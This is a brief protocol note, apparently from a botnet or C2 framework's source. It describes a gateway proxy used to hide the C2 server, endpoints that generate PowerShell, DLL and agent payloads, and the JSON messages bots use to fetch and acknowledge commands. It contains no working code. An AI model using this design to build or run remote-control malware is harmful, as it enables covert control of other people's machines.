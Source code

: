 # C2 / bot protocol 



## Gateway

Gateway is just a proxy to hide our C2 server
```

<bots> -----> <gateway> ----> <c2>

```


`GET /generator/powershell`
`GET /generator/dll`
`GET /generator/agent`
 

## Ask for command to execute 
`POST /api/global`
```json
{
	"uuid" : "af7c1fe6-d669-414e-b066-e9733f0de7a8",
	"command" : "GET_COMMAND"
}
```

## Send back the result 
`POST /api/global`
```json
{
	"uuid" : "af7c1fe6-d669-414e-b066-e9733f0de7a8",
	"command" : "ACK_COMMAND",
	"data" : {
	}
}
```
